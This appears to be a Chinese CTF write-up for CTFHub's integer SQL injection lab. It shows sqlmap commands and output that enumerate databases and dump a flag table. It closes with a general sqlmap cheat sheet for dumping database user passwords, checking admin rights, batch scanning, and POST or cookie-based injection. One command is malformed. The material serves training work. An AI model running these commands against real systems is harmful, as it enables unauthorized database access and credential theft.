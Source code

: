 ```yaml
---
title: 整数型SQL注入
date: 2024-11-12T18:06:06Z
lastmod: 2024-11-15T20:33:00Z
---
```


# 整数型SQL注入

ctfhub{f797878b77751f2aa52c00bd}

#### 检测注入点

```cobol
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1"             //检测过程中需要手动输入y/n，即是否继续进行[sql注入](sql注入.md)检测
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --batch     //检测过程中默认继续进行[sql注入](sql注入.md)检测
```

#### 产看所有数据库

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:--dbs
```

```shell
available databases [4]:                               
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

#### 查看当前网站使用的数据库

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --current-db
```

#### 产看[数据表](https://so.csdn.net/so/search?q=%E6%95%B0%E6%8D%AE%E8%A1%A8&spm=1001.2101.3001.7020)

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' --tables
```

```shell
Database: sqli                                         
[2 tables]
+------+
| flag |
| news |
+------+
```

#### 查看字段

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' -T 'flag' --columns
```

```shell
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+
```

#### 查看字段数据

```perl
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" -D 'sqli' -T 'flag' --dump
```

```shell
abase 'sqli'
Database: sqli'
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{4598642ab583bc461923d8c9} |
+----------------------------------+
```

#### [查看数据库](https://so.csdn.net/so/search?q=%E6%9F%A5%E7%9C%8B%E6%95%B0%E6%8D%AE%E5%BA%93&spm=1001.2101.3001.7020)用户

```sql
sqlmap -u "http://challenge-ee02641a7b40090e.sandbox.ctfhub.com:10800/?id=1" --current-user
```

#### 查看所有用户

```sql
sqlmap -u 完整url --users
```

#### 获取数据库用户密码

```sql
sqlmap -u 完整url --passwords
```

#### 查看[用户权限](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)

```sql
sqlmap -u 完整url --privileges
```

#### 判断当前数据库用户是否是管理员

```csharp
sqlmap -u 完整url --is-dba
```

### 自动化扫描

将抓到的数据包右键copy to file，然后使用kali注入

```sql
sqlmap -r '数据包路径' --dbs --batch
```

### 批量自动化扫描

新建xxx.txt文件，里面存放多个url

```undefined
sqlmap -m xxx.txt
```

---

### post请求注入

将抓包抓到的http请求内容存放到.txt文件中

```undefined
sqlmap -r xxx.txt
```

---

### cookie注入

一些需要登录的网站在用sqlmap进行注入时，需要添加cookie参数：

```csharp
sqlmap -u 完整curl --cookie 'cookie'（单引号和双引号都行）
```
[sql注入](sql注入.md)